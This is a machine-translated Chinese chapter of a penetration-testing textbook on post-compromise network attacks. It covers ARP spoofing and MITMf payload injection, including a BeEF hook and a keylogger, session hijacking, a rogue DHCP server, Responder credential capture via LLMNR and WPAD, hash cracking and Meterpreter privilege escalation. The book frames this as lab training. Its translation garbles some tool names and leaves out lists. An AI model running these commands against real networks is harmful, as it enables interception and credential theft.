# 网络渗透测试-连接后攻击

访问系统或网络绝对不是执行扫描和进一步利用的目的。一旦您进入了一个安全的环境，例如目标组织，您就需要在这里分而治之地管理其他内部系统。但是，执行内部扫描所涉及的技术与前面章节中提到的类似（[第 6 章](06.html)、*主动信息收集*）。在这里，将引入扫描、利用、权限提升和在网络上执行横向移动的新技术。为了进一步阐述，您将学习如何使用各种技术和工具执行**中间人**（**MITM**）攻击，并了解如何收集用户凭据等敏感信息。

在本章中，我们将介绍以下主题：

*   收集信息
*   MITM 攻击
*   会话劫持
*   **动态主机配置协议**（**DHCP**攻击
*   利用 LLMNR 和 NetBIOS NS
*   **Web 代理自动发现**（**WPAD**协议攻击
*   钢丝鲨
*   提升特权
*   横向移动战术
*   PowerShell tradecraft
*   发起 VLAN 跳转攻击

# 技术要求

本章的技术要求如下：

*   卡利 Linux:[www.Kali.org](http://www.kali.org)
*   MITMf:[https://github.com/byt3bl33d3r/MITMf](https://github.com/byt3bl33d3r/MITMf)
*   自动扫描：[https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/](https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/)
*   Wireshark:[www.Wireshark.org](http://www.wireshark.org)
*   视窗 7
*   视窗 10
*   Windows Server 2016
*   CentOS/Ubuntu

# 收集信息

在本书的早期，我们深入讨论了在 Kali Linux 中使用被动和主动技术和工具收集目标信息的重要性。然而，当您通过攻击破坏了系统时，渗透测试还没有结束。相反，在这一点上，您将继续利用组织网络上的不同系统，创建多个后门，并在各种受害设备上获得最高权限。

在本节中，我们将使用以下工具执行网络扫描：

*   网络探索
*   自动扫描
*   Zenmap

让我们更详细地了解其中的每一项。

# 使用 Netdiscover 进行扫描

**Netdiscover**只是利用**地址解析协议**（**ARP**来发现网段上连接的客户端的扫描仪。ARP 在 OSI 参考模型的数据链路层（第 2 层）和网络层（第 3 层）之间运行。设备使用 ARP 将 IP 地址解析为本地通信的 MAC 地址。

要使用 Netdiscover 执行内部网络扫描，请遵循以下步骤：

1.  执行以下命令：

```
netdiscover -r <network-ID>/<network prefix> netdiscover -r 10.10.10.0/24
```

Netdiscover 将开始显示所有活动设备，显示其 IP 地址、MAC 地址、其**网络接口卡**（**NIC**的供应商）及其主机名，如以下屏幕截图所示：



2.  要执行被动扫描并使用 Netdiscover 的嗅探模式，请使用`-p`参数。以下是启用被动模式的示例：

```
netdiscover -p -r 10.10.10.0/24
```

由于被动模式意味着耐心地等待检测线路上的 ARP 消息，填充表格可能很耗时，因为您必须等待设备通信。以下是指示被动模式已启用的屏幕截图：


在渗透测试期间，始终记住使用简单的工具完成工作。有时，使用一个复杂的工具可能会让你陷入一种情况，这意味着你会被困一段时间。正如您所注意到的，为了完成给定的任务，我们所使用的工具并不太难使用。

在本节中，您学习了如何在 Kali Linux 上使用 Netdiscover 执行被动扫描。接下来，我们将学习如何使用 AutoScan 工具执行网络扫描。

# 使用 AutoScan 网络进行扫描

AutoScan 网络工具能够扫描和分析本地网段上的设备。

要开始，请遵循以下步骤：

1.  从以下 URL 下载 AutoScan 网络：[https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/](https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/) 。

选择如下屏幕截图所示的版本：



2.  一旦文件成功下载到您的 Kali Linux 机器上，打开终端并执行`tar -xzvf autoscan-network-1.42-Linux-x86-Install.tar.gz`提取内容。以下是`tar`实用程序中使用的说明：
    *   `-x`：用于提取文件
    *   `-z`：通过 gzip 过滤压缩文件
    *   `-v`：提供详细的输出
    *   `-f`：指定文件或设备

3.  接下来，使用`./autoscan-network-1.42-Linux-x86-Install`安装工具，如下图所示：



4.  现在 AutoScan 网络已经安装在 Kali Linux 上，是时候打开应用程序了。在 Kali Linux 桌面环境中，单击应用程序| AutoScan Network 打开应用程序。
5.  网络向导将打开；点击**转发**开始自动扫描网络设置。
6.  接下来，设置您的网络名称并点击**转发**。
7.  向导将询问网络的位置；将其保留为默认设置（localhost），然后单击**转发**。
8.  选择您的网络适配器。如果您正在使用 LAN 适配器（`eth0`，请将其保留为默认值，然后单击**转发**。
9.  在摘要窗口中点击**转发**确认您的配置。

AutoScan Network 将开始自动扫描您的本地网络，并尝试对每个设备上发现的任何服务执行指纹识别，如以下屏幕截图所示：



完成后，AutoScan 网络将显示它能够在本地网络上检测到的所有 IP 地址、主机名和服务。

在下一节中，我们将介绍使用 Zenmap 执行扫描所需的基本技术。

# 使用 Zenmap 进行扫描

Zenmap 是 Nmap 的 GUI 版本。它提供与其命令行版本相同的功能和特性。要打开 Zenmap，请使用以下步骤：

1.  转到应用程序|信息收集| Zenmap。
2.  打开应用程序后，将显示以下用户界面，允许您指定要执行的目标或范围以及扫描类型（配置文件），并允许您创建和执行自定义扫描：



3.  扫描完成后，Zenmap 将在选项卡中填充以下信息：Nmap 输出、端口/主机、拓扑和主机详细信息：



在我们的练习中，我们对`10.10.10.0/24`网络进行了快速扫描，并能够确定活动系统和任何打开的端口。

在本节中，您已经掌握了使用 Zenmap 执行快速扫描所需的技能。在下一节中，我们将了解有关 MITM 攻击的更多信息。

# MITM 攻击

**MITM**攻击是指攻击者坐在受害者与其网络其余部分之间，截获并捕获网络数据包。下图显示了一名攻击者（`192.168.1.5`）与受害者（`192.168.1.10`）连接到同一网段：



默认情况下，攻击者机器将无法拦截和捕获**PC1**与默认网关（`192.168.1.1`之间的任何流量。但是，攻击者可以在受害者和网关之间执行**ARP 中毒**。ARP 中毒是指攻击者向设备发送**免费 ARP 响应**，告知其更新 IP 到 MAC 的映射。攻击者机器将向受害者发送免费 ARP 消息，告知受害者机器网关已更改为`192.168.1.1 - CC:CC:CC:CC:CC:CC`，并向网关发送**PC1**已更改为`192.168.1.10 - CC:CC:CC:CC:CC:CC`。

这将导致**PC1**和路由器之间交换的所有数据包通过攻击者机器，攻击者机器会嗅探这些数据包中的敏感信息，如路由更新、运行服务、用户凭据和浏览历史。

在下一节中，我们将了解在内部网络上成功执行 MITM 攻击的各种工具和技术。

# 欺骗

我们将首先介绍的工具之一是 ARPSoof。ARPSoof 用于向受害者的机器发送虚假 ARP 消息，诱使其将流量发送到攻击者的机器或网络上的另一个网关。既然我们已经了解了 ARP 中毒和欺骗的工作原理，我们就可以直接使用这个工具了。我们使用以下语法：

```
arpspoof -i <network adapter> -r -t <victim IP address> <gateway IP address>
```

在我们的实验室中，我正在受害者机器（`10.10.10.15`和网关（`10.10.10.1`之间执行一次 MITM 攻击，如以下屏幕截图所示：


ARPSoof 将开始连续向两台设备发送**免费 ARP**消息。使用*Ctrl*+*C*将停止 ARP 中毒攻击，ARPSoof 将执行清理操作，恢复受害者与网关之间的工作状态，如下图所示：



一旦清理成功结束，PC（`10.10.10.15`）和网关（`10.10.10.1`将按照最初的计划在网络上进行通信。

完成本节后，您现在可以使用 ARPSopof 执行 MITM 攻击。在下一节中，您将了解 MITMf 及其功能。

# MITMf

MITMf 是一种多功能工具，用于在受害者的内部网络上执行各种类型的 MITM 攻击和技术。MITMf 的特点包括：

*   捕获 NTLM v1/v2、POP、IMAP、SMTP、Telnet、FTP、Kerberos 和 SNMP 凭据。这些凭据将允许您访问用户的帐户、系统/设备、文件共享和其他网络资源。
*   使用响应者执行 LLMNR、NBT-NS 和 MDNS 中毒攻击。

要开始使用 MITMf，请遵循以下说明：

1.  使用以下命令在 Kali Linux 中安装依赖项软件包：

```
apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
```

2.  完成后，安装`virtualenvwrapper`：

```
pip install virtualenvwrapper
```

3.  接下来，您需要更新`virtualenvwrapper.sh`脚本中的源代码。首先，执行`updatedb`命令，创建本地文件系统中所有文件位置的更新数据库。完成后，使用`locate virtualenvwrapper.sh`命令获取文件路径。然后执行`source`命令，然后执行文件路径，如下图所示：


4.  使用`mkvirtualenv MITMf -p /usr/bin/python2.7`命令创建虚拟环境并下载 MITMf 存储库，如以下屏幕截图所示：


5.  下载存储库后，更改目录并克隆子模块：

```
cd MITMf && git submodule init && git submodule update -recursive
```

6.  使用以下命令安装依赖项：

```
pip install -r requirements.txt
```

7.  要查看帮助菜单，请使用以下命令：

```
python mitmf.py --help 
```

现在，您已经在 Kali Linux 机器上设置了 MITMf。接下来，让我们深入研究一下 MITMF 的使用案例。

# MITMf 的用例

以下是 MITMf 的各种使用案例：

请记住，所有攻击只能在实验室环境中执行，并且只能在您已获得合法许可的网络上执行。

*   您可以使用 MITMf 绕过 HTTPS：

```
python mitmf.py -i eth0 --spoof --arp --hsts --dns --gateway 10.10.10.1 --target 10.10.10.15
```

*   您可以在网关（`10.10.10.1`和整个子网之间执行 ARP 中毒攻击：

```
python mitmf.py -i eth0 --spoof --arp --gateway 10.10.10.1
```

*   您可以在受害者和网关之间执行 ARP 中毒（`10.10.10.1`：

```
python mitmf.py -i eth0 --spoof --arp --target 10.10.10.10-10.10.10.50 --gateway 10.10.10.1
```

*   您可以在子网和网关上执行 ARP 中毒攻击时执行 DNS 欺骗（`10.10.10.1`：

```
python mitmf.py -i eth0 --spoof --dns --arp --target 10.10.10.0/24 --gateway 10.10.10.1
```

*   您可以使用 MITMf 执行 LLMNR/NBTNS/MDNS 欺骗：

```
python mitmf.py -i eth0 --responder --wredir --nbtns
```

*   您可以执行 DHCP 欺骗攻击：

```
python mitmf.py -i eth0 --spoof --dhcp
```

此攻击在攻击后阶段非常有用。

IP 寻址方案和子网信息取自配置文件。

*   可以使用 MITMf 注入 HTML iframe：

```
python mitmf.py -i eth0 --inject --html-url <malicious web URL>
```

*   可以注入 JavaScript 脚本：

```
python mitmf.py -i eth0 --inject --js-url http://beef:3000/hook.js
```

您可以使用`responder`模块将 WPAD 协议作为恶意代理服务器执行 ARP 中毒：

```
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --responder --wpad
```

以下是可合并的其他参数列表：

*   **屏幕截图**：这允许 MITMf 使用 HTML5 画布，使用`--screen`命令获得客户端 web 浏览器的准确图像。此外，您可以使用`--interval seconds`命令的时间间隔捕获屏幕截图。
*   **键盘记录程序**：`--jskeylogger`命令将 JavaScript 键盘记录程序注入受害者的网页以捕获击键。

请记住，要查看 MITMf 工具的其他参数，可以执行`python mitmf.py --help`命令。

完成本节后，您现在拥有使用 MITMf 执行各种类型攻击所需的技能集。在下一节中，我们将介绍会话劫持攻击。

# 会话劫持

在本节中，我们将在网络上的目标机器上执行会话劫持。要执行此攻击，我们将结合其他一些技术以确保其成功。每当用户访问网站时，web 服务器都会向 web 浏览器发送 cookie。cookie 用于监控用户的活动，并通过跟踪购物车中的物品、在浏览网站的其他区域时保持持久登录等方式提供更好的用户体验。

会话劫持允许攻击者或渗透测试人员在受害者登录网站时捕获并接管（劫持）其他用户的会话。会话劫持允许渗透测试人员捕获会话令牌/密钥，然后用于未经授权访问系统上的信息和资源。例如，捕获登录到其在线银行门户的用户的会话可以允许攻击者访问受害者的用户帐户，而无需输入受害者的用户凭据，因为他们只需向网站/在线门户提供 cookie 数据。

在开始之前，我们将在实验室网络中使用以下拓扑来完成练习：



要确保成功完成此练习，请按照以下说明进行操作：

1.  在 Kali Linux 上使用**TTERCAP 图形化**设置 MITM 攻击。要执行此任务，请导航到应用程序| 09–嗅探&欺骗| eTerCap 图形，如下所示：


2.  打开 eTerCap 后，单击嗅探|统一嗅探：



3.  将出现一个小弹出窗口。选择您的**网络接口：****eth0**点击**确定**：


4.  通过导航到主机扫描网络上的所有主机设备|扫描主机：



5.  扫描完成后，单击主机|主机列表以查看网络上的目标列表。选择您的目标并点击**添加到目标 1**：


6.  成功添加目标后，导航至 Mitm | ARP 中毒，在 Ettercap 上启用 ARP 中毒：



7.  将出现一个弹出窗口。选择**嗅探远程连接。**点击**确定**：



8.  接下来，单击开始|开始嗅探以启用 MITM 攻击：



9.  接下来，我们将使用**仓鼠**工具来帮助我们操作数据。要打开仓鼠，请导航到应用程序| 09–嗅探&欺骗|仓鼠：


**仓鼠**将在新的终端窗口上打开命令行界面，并提供 URL`http://127.0.0.1:1234`，用于查看会话信息：


10.  接下来，我们将使用**雪貂**捕获受害者和数据目的地之间的会话 cookie。默认情况下，Kali Linux 没有安装 Ferret；此外，Ferret 是一种 32 位工具。要在 Kali Linux 上安装 Ferret，请使用以下命令：

```
dpkg --add-architecture i386 && apt-get update && apt-get install ferret-sidejack:i386
```

成功完成安装后，导航至应用程序| 09–嗅探和欺骗|雪貂：


11.  使用`ferret -i eth0`命令捕获以太网接口上的 cookie：


12.  在 Kali Linux 上打开 web 浏览器，输入`http://127.0.0.1:1234`进入**仓鼠**代理界面。点击**适配器**：


13.  选择`eth0`适配器，点击**提交查询**：



14.  转到受害者的机器，并使用 web 浏览器输入**Metasploitable**的 IP 地址。接下来，点击**该死的易受攻击的 Web 应用程序**（**DVWA**。然后，使用用户名（`admin`）和密码（`password`）登录，在受害者机器和另一个系统之间生成一些流量。
15.  在 Kali Linux 机器上，刷新仓鼠网页。您现在应该可以看到受害者的 IP 地址出现。单击受害者的 IP 地址以获取更多信息：



16.  单击左侧栏中的任何 URL 都将提供受害者可能在其 web 浏览器上看到的图像：



17.  要查看 cookie/会话详细信息列表，请在 web 浏览器上打开一个新选项卡，然后输入如下所示的 URL：



我们能够捕获受害者机器和 web 服务器之间事务的会话 cookie。完成此练习后，您现在可以执行 cookie 窃取/会话劫持攻击。

完成此练习后，您就具备了在任何网络上执行会话劫持攻击所需的技能。在下一节中，我们将介绍**动态主机配置协议**（**DHCP**攻击。

# DHCP 攻击

在许多网络中，有成百上千的终端设备（如台式机、笔记本电脑和智能设备）需要网络连接才能访问公司网络上的资源。但是，每个设备都需要网络上用于发送和接收消息（数据包）的地址、访问本地网络外部资源的路径（默认网关）、确定逻辑网络分段的标识符（子网掩码）以及可以将主机名解析为网络上 IP 地址的人（DNS 服务器）。

网络管理员必须确保在所有终端设备上配置以下四个组件：

*   IP 地址
*   子网掩码
*   默认网关
*   DNS 服务器

通过使用 DHCP 服务器，IT 专业人员可以快速高效地将 IP 配置自动分发到网络上的终端设备。为了进一步了解 DHCP 在网络上的重要性，当客户机连接到网络（有线或无线）时，客户机在网络上广播**DHCP Discover**数据包，以搜索 DHCP 服务器以提供 IP 配置。当 DHCP 服务器接收到发现数据包时，它会响应一个**DHCP 提供**数据包。此数据包包含客户端可以在网络上使用的可用 IP 设置。客户端收到并检查来自服务器的报价后，客户端响应**DHCP 请求**，用于通知服务器将使用 IP 信息。最后，DHCP 服务器通过发送**DHCP ACK**数据包来提供确认和确认。

下图概述了 DHCP 过程：



由于 DHCP 服务器通常向客户端设备提供默认网关信息，因此，如果 DHCP 服务器提供另一条通向 internet 的路径，比如说通过攻击者机器，客户端（受害者）机器将接受新路径并相应地转发其数据包。此外，更改客户端计算机上的 DNS 服务器配置以将所有 DNS 查询转发到假 DNS 服务器可能会导致在受害者的浏览器上加载钓鱼网页。

在本节中，我们将创建一个恶意 DHCP 服务器来重定向网络上受害者的流量。首先，我们将使用 Metasploit 框架创建恶意 DHCP 服务器：

1.  使用以下命令启用 PostgreSQL 数据库和 Metasploit：

```
service postgresql start msfconsole
```

2.  Metasploit 包含一个允许我们启用 DHCP 服务器的模块。使用以下屏幕截图中所示的命令：


在 Metasploit 中执行此模块之前，`show options`命令将显示可选和必需参数的说明。

3.  我们将设置开始和结束 IP 地址、网络广播地址、网络掩码（子网掩码）、DNS 服务器、默认网关（默认路由器）和恶意 DHCP 服务器的 IP 地址。以下屏幕截图演示了如何设置每个参数的值：



4.  完成后，使用`show options`命令验证每个参数的值设置是否正确：


5.  当您准备启动/执行模块时，键入`run`并点击*输入*。

以下代码片段来自我们渗透实验室的 Windows 10 计算机。仔细观察，您可以看到 IP 配置在我们先前在 Metasploit 中的 rogue DHCP 服务器上配置的参数范围内：



此外，以下是在网络上启动恶意 DHCP 服务器期间 Wireshark 捕获的 DHCP 消息：


仔细看屏幕截图，我们可以看到从 Windows 10 机器发送的**DHCP 发现**数据包在网络上寻找 DHCP 服务器。最终，我们的恶意 DHCP 服务器能够以**DHCP 提供**数据包响应客户端。

以下显示发送给受害者 Windows 10 计算机的**DHCP 提供**数据包的内容：



我们可以看到客户端可分配 IP 地址（`10.10.10.101`），默认网关（`10.10.10.16`），客户端 MAC 地址，DHCP 消息类型（`Offer`），DHCP 服务器 IP 地址（`10.10.10.16`），子网掩码，以及 DNS 服务器配置。

客户端向 DHCP 服务器（rogue）发送**DHCP 请求**，确认从**DHCP Offer**消息接收到的 IP 配置。最后，DHCP 服务器（rogue）发送一个**DHCP ACK**数据包，确认客户端将使用提供的信息。

现在，您已经具备了使用 Metasploit 在目标网络上发起 DHCP 攻击的技能。在下一节中，我们将介绍**链路本地多播名称解析**（**LLMNR**）和 NetBIOS 攻击。

# 利用 LLMNR 和 NetBIOS NS

在许多组织中，作为渗透测试人员，您将遇到许多充当**域控制器**（**DC**角色的 Windows Server 机器。DC 只是运行 Active Directory 域服务的 Windows server 计算机，用于管理组织内的所有设备。**Active Directory**（**AD**）由 IT 专业人员用于管理网络上的计算机和用户等组件。此外，IT 专业人士可以在 AD 中使用**组策略对象**（**GPO**）为终端设备和用户分配权限，从而创建限制，以防止网络上的未授权活动和行为。

在 Windows 环境中，**NetBIOS NS**和**LLMNR**协议都存在。**NetBIOS NS**表示**网络基本输入/输出系统名称服务**。NetBIOS NS 通常用于解析本地网络上的主机名。NetBIOS 已经存在很长时间了，已经过时了。但是，它仍然被用于与旧的遗留系统通信。

如今，LLMNR 协议通常用于**域名服务器**（**DNS**服务器）不存在或不可用的网络。与 NetBIOS NS 类似，LLMNR 也用于解析网络上的主机名。

使用 Kali Linux，我们可以利用这些协议中的安全漏洞。在此场景中，我们将尝试在实验室网络上执行 MITM 攻击。此设计包含以下内容：

*   具有 Active Directory 域服务的 Windows Server 2016
*   一个名为`pentestlab.local`的新域
*   在域中充当客户端的 Windows 10 计算机
*   Kali Linux 作为攻击者使用响应程序执行 LLMNR 中毒

在本练习中，我们将使用以下拓扑执行攻击：


确保您已在实验室安装 Windows Server 2016。如果您尚未安装，请阅读[第 3 章](03.html)、*设置 Kali-第 2 部分*，其中包含将 Windows 安装为虚拟机的指导原则。

要在 Windows Server 2016 中设置 Active Directory，请使用以下 URL:[https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/](https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/) 。

要使用 Windows 10 机器加入`pentestlab.local`域，请参考以下 URL 了解说明：[https://helpdeskgeek.com/how-to/windows-join-domain/](https://helpdeskgeek.com/how-to/windows-join-domain/) 。此外，在 Windows 10 计算机上，您需要在加入域之前将 DNS 服务器设置为 Windows Server 2016 计算机的 IP 地址。

实验室准备好后，让我们转到我们的 Kali Linux 机器。我们将使用响应程序执行我们的 MITM 攻击，以捕获各种协议消息。

要开始利用 LLMNR 和 NetBIOS，请遵守以下说明：

1.  使用`locate`实用程序，我们将发现`Responder.py`的位置，如下图所示：


2.  将您当前的工作目录更改为`/usr/share/responder`。接下来，使响应者能够监听网络上的流量，如以下屏幕截图所示：


我们将在响应程序中使用以下参数：

3.  默认情况下，响应者对受害者进行中毒攻击。每当客户端试图访问网络上的资源（如文件共享）时，都会通过网络发送用户的凭据，如以下屏幕截图所示：


我们能够确定以下内容：

复制哈希并将其保存到桌面上的文本文件中。我已将我的散列保存在桌面上名为`Hash.txt`的文件中。

默认情况下，响应程序使用受害者的 IP 地址将哈希保存在`/usr/share/responder/logs`目录中，作为文本文件命名约定的一部分。

4.  接下来，我们可以使用**Hashcat**对 NTLMv2 哈希进行离线密码破解，恢复用户的明文密码。使用以下语法对 Hashcat 执行密码破解：

```
hashcat -m 5600 Hash.txt <wordlist file> --force
```

请记住，执行密码破解可能是一项耗时的任务。此外，确保单词列表/目录文件包含大量条目，以增加成功的可能性。

使用`-m`参数指定 Hashcat 中的模式。模式用于告诉 Hashcat 散列的类型。模式`5600`用于**网络协议–NetNTLMv2**。此外，要发现其他模式，请使用`hashcat --help`命令。

要下载 SecLists 词表，请参考以下 URL:[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists) 。

此外，您还可以使用**开膛手约翰**对使用 Responder 捕获的哈希进行密码破解。

现在您已经完成了本节，现在可以利用 LLMNR 中的弱点。在下一节中，我们将演示如何利用 WPAD 漏洞。

# WPAD 协议攻击

在公司网络中，系统管理员通常允许员工通过代理服务器访问 internet。代理服务器通常会提高性能和安全性，并监视进出公司网络的 web 流量。WPAD 是一种在客户端计算机上使用的技术，用于通过 DHCP 发现方法发现配置文件的 URL。一旦客户机发现一个文件，它就会在客户机上下载并执行。脚本将确定客户端的代理。

在本练习中，我们将使用 Kali Linux 上的 Responder 来捕获受害者的用户凭据。在开始之前，本练习中将使用以下拓扑：



通过以下步骤，我们将能够在 Windows 环境中轻松利用 WPAD：

实验室配置与上一节中的配置相同。

1.  确保 Windows 10 客户端计算机已加入 Windows Server 托管的域。
2.  在 Kali Linux 机器上，使用`cd /usr/share/responder`命令将工作目录更改为响应程序位置。

3.  执行`python Responder.py -I eth0 -wFb`命令：


代码段中使用的开关提供以下功能：

4.  当受害者试图浏览或访问网络上的任何本地资源时，将出现以下登录窗口：


5.  一旦受害者输入他们的用户凭证，响应者将以明文显示，如下面的屏幕截图所示。

请注意，本例中使用的用户帐户是我为教育目的在个人实验室域中设置的帐户。

作为提醒，响应者生成的所有日志和捕获的数据都存储在`/usr/share/responder/logs`目录中。现在，您可以利用公司网络上的 WPAD 捕获员工的用户凭据：


在下一节中，我们将了解 Wireshark。

# 钢丝鲨

Wireshark 是业界最好的网络协议分析器和嗅探器之一。它的功能非常广泛，可以对网络数据包进行深入的结果和分析。对于网络上发生的每一次对话或交易，Wireshark 都能够提供每个数据包组成的明细。

我们将首先概述 Wireshark 的功能。

# Wireshark 的基本概述以及如何在 MITM 攻击中使用它

Wireshark 已经预装在您的 Kali Linux 操作系统上。要开始，请执行以下步骤：

1.  导航至应用程序| 09–嗅探和欺骗| wireshark。

2.  一旦 Wireshark 打开，您将看到如下屏幕截图所示的用户界面：


3.  Wireshark 将提供所有网络接口的列表，并显示通过每个网络适配器的实时网络流量的实时摘要图。双击接口将立即在网络接口卡上启动实时捕获。

在本地系统上启用捕获只会显示攻击者计算机与网络其余部分之间的流量。这意味着 Wireshark 将只能截获/嗅探入站和出站计算机的网络流量。那不是很方便，是吗？

让我们来看看从网络交换机创建所有网络流量的镜像，并将其发送到攻击者机器。

# 配置 SPAN 端口

SPAN 允许交换机在一个或多个端口上创建流量副本，并从另一个端口发送相同的副本。此配置通常在网络安全管理员希望将协议分析器（嗅探器）或**入侵检测系统**（**IDS**）连接到网络以监控任何安全威胁时进行：



图中，攻击者机器（运行 Wireshark）连接到**Cisco IOS 2960****交换机**上的快速以太网 0/1 接口，而其他设备连接到同一网段。假设我们希望获得快速以太网 0/2、快速以太网 0/3 和快速以太网 0/4 端口之间所有流量的副本。

要执行在 Cisco IOS 交换机上配置 SPAN 端口的任务，请使用以下准则：

1.  我们可以使用以下命令将输出发送到快速以太网 0/1：

```
Switch (config)# monitor session 1 source interface fastethernet 0/2 Switch (config)# monitor session 1 source interface fastethernet 0/3 Switch (config)# monitor session 1 source interface fastethernet 0/4 Switch (config)# monitor session 1 destination interface fastethernet 0/1
```

2.  要验证配置，请使用开关上的`show monitor`命令：



输出显示源端口（用于监控网络流量）和目标端口配置正确。一旦我们在攻击者机器上启用 Wireshark，开始在本地接口`eth0`上捕获，所有网络数据包将在 Wireshark 用户界面上实时显示。

完成本节后，您现在可以在 Cisco IOS 交换机上配置 SPAN 端口。在下一节中，我们将深入讨论如何配置 Wireshark 来嗅探网络流量。

# 在 Wireshark 上配置监视器（嗅探器）接口

要在 Wireshark 上配置监控（嗅探器）接口，请遵守以下说明：

1.  单击捕获|选项以显示本地计算机上的所有网络接口：



2.  选择适当的网络接口，在所有接口上选择“启用混杂模式”，然后单击“开始”开始捕获网络数据包：


3.  当网络上发生交易时，**数据包列表**窗格将开始填充网络数据包。单击数据包将在以下**数据包详细信息**窗格中显示其所有详细信息和字段：


当数据包被填充到接口上时，这种体验可能有点难以承受。在下面的小节中，我们将采用一种实用的方法来执行 HTTP 分析和其他类型的分析，以确定一些重要信息。

完成本节后，您现在可以将 Wireshark 用作网络嗅探器。在下一节中，我们将演示如何执行流量分析，以便使用 Wireshark 收集敏感信息。

# 解析 Wireshark 数据包捕获以查找商品

在下面的练习中，我们将使用来自**蜜网项目**（[www.Honeynet.org](http://www.honeynet.org)的捕获帮助我们理解数据包分析。要执行 Wireshark 数据包的解析，请遵循以下步骤：

1.  转到[https://www.honeynet.org/node/1220](https://www.honeynet.org/node/1220) 下载`conference.pcapng`文件。此外，以下 URL，[https://honeynet.org/sites/default/files/conference.pcapng.gz](https://honeynet.org/sites/default/files/conference.pcapng.gz) 是指向该文件的直接下载链接。
2.  下载后，使用 Wireshark 打开`conference.pcapng`文件；您应该具有以下视图：



3.  Wireshark 的一个有用功能是通过 DNS 自动将 IP 地址解析为主机名，将 MAC 地址解析为供应商名称，并将端口号解析为服务和协议。要启用此功能，请转至编辑|首选项|名称解析。确保选中以下选项：



4.  单击“确定”确认并保存配置。回到主用户界面，您会注意到所有公共 IP 地址现在都解析为它们的公共主机名：


5.  Wireshark 之所以成为如此强大的工具，是因为它的显示和捕获过滤器。要查看来自源 IP 地址的所有流量，请使用`ip.src == <ip address>`过滤器：


要显示特定目的地地址的所有流量，我们可以使用`ip.dst == <ip address>`过滤器。但是，我们可以使用`(ip.src == <ip address>) && (ip.dst == <ip address>)`过滤器组合过滤器来查看从特定来源到目的地的流量。在下面的屏幕截图中，我们使用过滤器查看从`172.16.254.128`到谷歌 DNS 服务器`8.8.8.8`的所有流量：



组合过滤器时，需要使用逻辑操作来完成任务。以下是在 Wireshark 中组合过滤器的各种操作符的简短列表：


`Ge`运算符表示**大于等于**，而`Le`运算符表示**小于等于**。

有关 Wireshark 显示过滤器的更多信息，请访问[https://wiki.wireshark.org/DisplayFilters](https://wiki.wireshark.org/DisplayFilters) 。

记忆显示过滤器对任何人来说都是一项挑战。但是，Wireshark 使用用户界面上的右键单击选项，使创建自定义过滤器变得非常简单。现在，让我们尝试一些练习，以帮助您更加熟悉显示过滤器。

要开始在 Wireshark 中创建显示过滤器，请执行以下步骤：

1.  首先，右击数据包 1 上的源 IP 地址，然后点击**应用为过滤器****选择**立即创建并应用过滤器：


现在，我们有一个过滤器，显示来自`172.16.254.128`地址的所有流量。

2.  接下来，在目的地栏中，右键点击`8.8.8.8`或`google-public-dns-a.google.com`，点击**应用为过滤器**，然后选择**选项……并选择**：


这将产生只显示来自`172.16.254.128`进入谷歌 DNS 服务器的流量的效果。

**应用为过滤器**选项将立即在 Wireshark 上应用显示过滤器。但是，**准备为过滤器**提供了相同的选项，但没有立即应用显示过滤器。相反，它允许您继续构建过滤器语法并在以后应用它。

3.  要查看网络上设备之间的所有对话，请单击**统计****对话**：


对话窗口将打开，提供多个选项卡，其中包含各种详细信息，如设备之间的以太网、IPv4、IPv6、TCP 和 UDP 会话，如以下屏幕截图所示：


您将能够确定在给定时间内哪些设备正在通信和传输数据包。

4.  Wireshark 允许我们轻松查看通过网络下载和上传的所有文件。要执行此任务，请单击**文件****导出对象****HTTP**。HTTP 导出窗口将打开，显示数据包、主机名（源）、内容类型、大小和文件名详细信息。要将文件导出到桌面，请在界面上选择一个数据包，然后单击**保存**：



要从 Wireshark 捕获导出所有文件，请使用**全部保存**选项。

5.  要重新组合和查看两台设备之间单个对话的所有消息，请右键单击数据包并选择**Follow****TCP Stream**：


Wireshark 将收集此流的所有数据包，重新组装它们，并向您展示两台设备之间交换的消息对话框，如以下屏幕截图所示：



下面是客户端和 Linux 服务器之间 Telnet 对话的屏幕截图。Telnet 是一种**不安全的**协议，Telnet 客户端和 Telnet 服务器之间的所有通信都以明文形式通过网络发送。以下屏幕截图显示 Wireshark 如何为单个对话重新组装所有数据包：



我们可以看到用于登录服务器的用户凭据、当天的服务器**消息**（**MOTD**横幅以及所有其他事务。

完成本节后，您现在具备了在 Wireshark 中创建自定义显示过滤器所需的技能。在下一节中，我们将学习提升权限。

# 提升特权

在渗透测试中，获取用户访问系统的凭据只是获取访问阶段的一部分。但是，请记住，并非所有用户帐户都具有**root**或**管理员**权限。因此，使用非 root 或标准用户帐户远程访问系统将阻止您在受害者的系统上执行某些应用程序和执行管理任务。

可以使用多种技术执行升级权限，包括以下技术：

*   从 Windows 上的 SAM 文件获取信息
*   在 Linux 上从`passwd`文件中检索数据
*   利用系统上运行进程的弱权限
*   获取存储的网络文件共享上的敏感信息
*   在用户与网络上的其他设备通信时捕获用户密码的哈希值。

SAM 和 passwd 文件中的信息包含用户密码的用户名和哈希值。使用密码破解技术，您将能够检索用户帐户的明文密码，然后可以使用这些密码访问设备。获得管理员或 root 帐户将提供对系统的无限制访问。

使用标准用户帐户访问系统意味着我们可以执行本地权限提升攻击以获得管理员或根级别的访问权限。

利用数据库（[https://www.exploit-db.com/](https://www.exploit-db.com/) 提供了一个用于多种用途的大型漏洞库；使用利用数据库网站上的搜索功能来发现特权升级利用漏洞：


在前面的章节中，我们演示了使用 Metasploit 成功利用目标并获得访问权限的技术。**MeterMeter**组件提供`getsystem`命令，该命令尝试升级目标系统上的权限，如以下屏幕截图所示。仔细观察：你会发现我们能够获得受害者的`nt authority\system`特权。这是访问的最高级别：



